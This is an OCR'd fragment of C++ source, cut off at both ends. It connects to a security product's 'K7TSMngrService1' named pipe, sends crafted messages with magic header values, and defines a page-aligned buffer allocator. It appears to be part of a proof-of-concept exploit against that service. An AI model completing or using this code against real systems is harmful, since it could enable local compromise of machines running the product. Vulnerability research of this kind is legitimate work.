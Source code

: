 ```C++
	DWORD dwOutputDataSize;
} unk1;

HANDLE g_hPipe = INVALID_HANDLE_VALUE;

BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	printf("Connected to pipe\r\n");

	return TRUE;
}

BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		if (!InitPipe())
		{
			return FALSE;
		}
	}

	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}
	printf("WriteFile 1 Success\r\n");

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}
	printf("WriteFile 2 Success\r\n");

	return TRUE;
}

PVOID AllocPrecise(DWORD dwSize)
{
	DWORD dwPageSize = ((dwSize + 4096 - 1) / 4096) * 4096;
	PBYTE pOffset = (PBYTE)VirtualAlloc(NULL, dwPageSize, MEM_COMMIT, PAGE_READWRITE);

	if (dwSize % 0x1000 == 0)
	{
```